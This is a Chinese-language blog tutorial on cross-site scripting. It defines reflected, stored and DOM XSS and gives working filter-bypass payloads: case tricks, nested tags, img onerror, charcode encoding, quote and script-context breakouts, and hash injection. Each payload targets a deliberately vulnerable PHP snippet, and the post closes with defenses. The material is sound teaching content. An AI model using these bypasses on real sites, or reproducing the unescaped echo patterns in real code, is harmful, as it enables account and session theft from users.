 ```yaml
---
layout: post
title:  "跨站脚本攻击"
categories: XSS
tags:  XSS
---
```


* content
{:toc}

## 简介

**跨站脚本攻击**`(Cross Site Scripting)`，为了不和**层叠样式表**`(Cascading Style Sheets, CSS)`的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

### 主要攻击危害

1. 盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号

2. 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力

3. 盗窃企业重要的具有商业价值的资料

4. 非法转账

5. 强制发送电子邮件

6. 网站挂马

7. 控制受害者机器向其它网站发起攻击



## XSS的攻击类型

### 反射型

又称为非持久性跨站点脚本攻击，它是最常见的类型的XSS。漏洞产生的原因是攻击者注入的数据反映在响应中。一个典型的非持久性XSS包含一个带XSS攻击向量的链接(即每次攻击需要用户的点击)。  

### 存储型

又称为持久型跨站点脚本，它一般发生在XSS攻击向量(一般指XSS攻击代码)存储在网站数据库，当一个页面被用户打开的时候执行。每当用户打开浏览器,脚本执行。持久的XSS相比非持久性XSS攻击危害性更大,因为每当用户打开页面，查看内容时脚本将自动执行。谷歌的orkut曾经就遭受到XSS。

### DOM型

其实DOM型也属于反射型的一种，不过比较特殊，所以一般也当做一种单独类型。
前提是易受攻击的网站有一个HTML页面采用不安全的方式从document.location 或document.URL 或 document.referrer获取数据（或者任何其他攻击者可以修改的对象）

## XSS的攻击实验

### 无任何过滤

```php
<? php
      echo $_GET["name"];
?>
```
以上代码没有做任何过滤,可直接输入`http://IP:port/index.php?name=<script>alert</script>`;,访问后可弹出弹框

### 过滤小写的<script>和</script>

```php
$name = $_GET["name"];
$name =  preg_replace("/<script>/","",$name);
$name =  preg_replace("/<\/script>/","",$name);
echo $name;
```
过滤了小写的`<script>`和`<\script>`,可以使用大小写绕过
`http://IP:port/index.php?name=<scripT>alert</scripT>`;

### 过滤了不区分大小写的<script>和</script>

```php
$name = $_GET["name"];
$name =  preg_replace("/<script>/","",$name);
$name =  preg_replace("/<\/script>/","",$name);
echo $name;
```

过滤了不区分大小写的`<script>`和`<\script>`,可以使用嵌套的script标签绕过
`http://IP:port/index.php?name=<scr<script>ipT>alert</scr</script>ipT>`;

### 包含script字符即报错

```php
if (preg_match('/script/i',$_GET["name"])) {
      die("error")
}
```

包含script字符即报错,可以使用img标签来绕过.`http://IP:port/index.php?name=<img src="" onerror="alert('xxs')">`

### 直接过滤alert

``` php
if(preg_math('/alert/i',$_GET["name"])) {
      die("error");
}
```
包含alert即报错,可以使用编码来绕过`http://IP:port/index.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,39,120,115,115,39,41))</script>`

### 直接在js环境中输出php变量

``` php
<script> var $a ="<?php echo $_GET["name"]; ?>"</script>
```
直接在js环境中输出php变量可以构造js脚本绕过`http://IP:port/index.php?name=</script><script>alert('XSS')</script>`

### htmlentities转换

```php
<script>var $a = '<?php echo htmlentities($_GET["name"]); ?>';
</script>
```
`htmlentities()`把字符转换为 HTML 实体,但没有转换特殊字符,用单引号来绕过`http://IP:port/index.php?name=';alert('xss');'`

### 使用锚点ID

```php
<script>doucument.write(location.hash.substring(1))</script>
```

在页面输出锚点,location.hash获取URL的锚点包含#号,substring(1)去除#.则构建一个带xss的锚点即可
`http://IP:port/index.php#<script>alert('XSS')</script>`,刷新页面即可弹窗.

## XSS防御

### 基于代码修改的防御

和SQL注入防御一样,XSS攻击也是利用了Web页面的编写疏忽,所以可以从Web应用开发的角度来避免:

- 步骤一: 对所有用户提交内容进行可靠的输入验证,包括对`URL`,`查询关键字`,`HTTP头`,`POST数据`等,金接受指定长度范围内,采用适当格式,采用所预期的内容提交,对其他一律过滤.
- 步骤二: 实现Session标记,CAPTHA系统或者HTTP应用头检查,以防功能被第三方网站所执行.
- 步骤三: 确认接受的内容被妥善规范化,仅包含最小的,安全的Tag(没有JavaScript等),去掉任何远程内容的引用)(尤其是样式表和javacript),使用HTTP only的cookie.

### 基于特征的防御

传统XSS防御多采用特征匹配方式,在所有提交的信息中都进行匹配检查.对于这种类型的XSS攻击,采用模式匹配方法一般会需要对`javascript`这个关键字进行检索,一旦发现提交信息中包含`javascript`,就可以认为存在XSS攻击

## 参考资料

### [【实验吧】XSS攻击与防御综合挑战专题](http://www.shiyanbar.com/experiment-course/detail/369)

### [【那一夜随风】XSS跨站脚本攻击](https://www.cnblogs.com/phpstudy2015-6/p/6767032.html)

### [关于XSS（跨站脚本攻击）和CSRF（跨站请求伪造）](https://cnodejs.org/topic/50463565329c5139760c34a1)
